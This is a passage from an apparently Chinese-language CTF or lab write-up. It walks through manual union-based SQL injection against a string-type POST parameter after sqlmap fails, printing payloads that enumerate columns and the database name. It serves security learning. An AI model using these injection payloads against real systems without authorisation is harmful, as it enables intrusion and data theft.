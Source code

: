而且还是字符型 SQL 注入，一眼 POST 传参，sqlmap 试一下，抓包看一下传参

[![](assets/1701678867-cd687ebaadc9bfbc89a6c94ae620619f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203258-42f4a29a-8dea-1.png)

测试了一下，好像不可以，手动打吧

```plain
-1' union select 1,2,3#
```

[![](assets/1701678867-c978194f02592177a7db1c06c7d60265.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203305-4771eb52-8dea-1.png)

爆一下数据库

```plain
-1' union select database(),2,3#
```

[![](assets/1701678867-568c6a12945831ae0a421e6e875a5e52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203312-4ba49e22-8dea-1.png)
